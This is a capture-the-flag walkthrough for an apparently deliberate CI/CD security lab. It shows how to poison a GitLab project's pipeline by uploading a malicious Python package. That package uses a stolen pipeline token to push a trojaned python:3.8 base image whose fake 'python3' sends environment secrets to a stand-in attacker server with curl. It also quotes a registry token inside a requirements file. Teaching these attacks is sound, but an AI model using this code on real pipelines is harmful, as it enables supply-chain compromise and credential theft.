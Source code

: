 [![CICD-SEC-3 Dependency Chain Abuse](https://img.shields.io/badge/CICD--SEC--3-Dependency%20Chain%20Abuse-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-03-Dependency-Chain-Abuse)
[![CICD-SEC-6 Insufficient Credential Hygiene](https://img.shields.io/badge/CICD--SEC--6-Insufficient%20Credential%20Hygiene-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-06-Insufficient-Credential-Hygiene)

Let's explore what we have when signing in to the compromised GitLab user account:

We are the maintainers of *pygryphon* package. There are also public projects: *nest-of-gold* and *awesome-app* to which we have read-only access.

As the instructions of this challenge hint, let's try to see if we can find any reference to *Flag11*.

A simple search tells us it is referenced by the *nest-of-gold* project 


![grpyhon](../images/gryphon-1.png "grpyhon")

We can see that *Flag11* is used in a pipeline that ships a container used in production.

Browsing to the pipeline settings, we discover that a scheduling is set, and that a user named "gryphon" is executing the pipeline.

If we keep looking, we can discover that the same user is executing the *awesome-app* project's pipeline.

Diving into *awesome-app*, it is using the pygrphon package as a dependency! We can tell it by the *requirments.txt* file:

```
--extra-index-url http://token:cd79dd622c6d463a574635e874765c0b@gitlab/api/v4/projects/pygryphon%2Fpygryphon/packages/pypi/simple --trusted-host gitlab

pytest==7.2.0
flask==2.0.3
Werkzeug==2.0.3
pygryphon==1.0.13
```

This means we can try and influence the *awesome-app* pipeline by uploading a new malicious Python package of *pygryphon*. We'll get back to it in a moment.

Our end goal is in the *nest-of-gold* project, how can we influence its pipeline?
  
Let's have a look at the Dockerfile inside *nest-of-gold*. We can see it's dependent on the python:3.8 docker image stored in the *nest-of-gold* container registry, and not the offical registry.
  
```docker
FROM gitlab:5050/wonderland/nest-of-gold/python:3.8

WORKDIR /app
COPY app.py .
COPY requirements.txt .
RUN pip3 install -r requirements.txt

CMD [ "python3", "-m" , "flask", "run", "--host=0.0.0.0"]
```
  
Here comes the tricky part 🥸 let's create a malicious *pygryphon* package that pushes a malicious python3.8 docker base image to the *nest-of-gold* container registry.


In the *awesome-app* pipeline we can see a PAT being used named *TOKEN*.

`docker login -u gryphon -p $TOKEN $CI_REGISTRY`

Let's try to steal this token and use it against the *nest-of-gold* container registry.     
In this package, we create a script named "python3" that the docker image of *nest-of-gold* will execute mistakenly instead of the actual python3 interpreter.   
Modified *greet.py* content:

```python
import subprocess

DOCKERFILE = """FROM python:3.8
COPY python3 /usr/local/bin/
COPY python3 /usr/local/bin/pip3"""
# Exfiltrate Flag11. Insert your server address
PYTHON3 = """#!/bin/bash
env | grep FLAG11 | curl -X POST --data-binary @- https://ATTACKER[.]SERVER/"""


def run(cmd):
    proc = subprocess.run(cmd, shell=True, timeout=180)
    print(proc.stdout)
    print(proc.stderr)


def hello(name):
    """
    We will build and push a malicous docker image as if it were python 3.8, but in fact 
    the python3 binary will be our evil script
    """
    run('apk add docker-cli')
    with open('Dockerfile', 'w') as f:
        f.write(DOCKERFILE)
    with open('python3', 'w') as f:
        f.write(PYTHON3)
    # Grant our script execution permission    
    run('chmod +x python3')
    # Build the docker file
    run('DOCKER_HOST=tcp://docker:2375 docker build -t gitlab:5050/wonderland/nest-of-gold/python:3.8 .')
    # Login to the docker registry using TOKEN
    run('DOCKER_HOST=tcp://docker:2375 docker login -u gryphon -p $TOKEN $CI_REGISTRY')
    # Push our malicious python docker image to the registry
    run('DOCKER_HOST=tcp://docker:2375 docker push gitlab:5050/wonderland/nest-of-gold/python:3.8')    
    return "Hello, " + name
```

Build and upload this package to the gryphon package registry (after configuring GitLab as the package registry).

Conveniently you may use these files to build the package:  

[.pypirc](/tests/data/pygryphon/.pypirc)

[pyproject.toml](/tests/data/pygryphon/pyproject.toml)


```sh
pipenv run python3 -m build [path_to_package]
pipenv run python3 -m twine upload -r gitlab
```

Now prepare a cup of coffe ☕️ wait for the two pipeline scheduling to take place, and expect the flag to arrive at your http server.
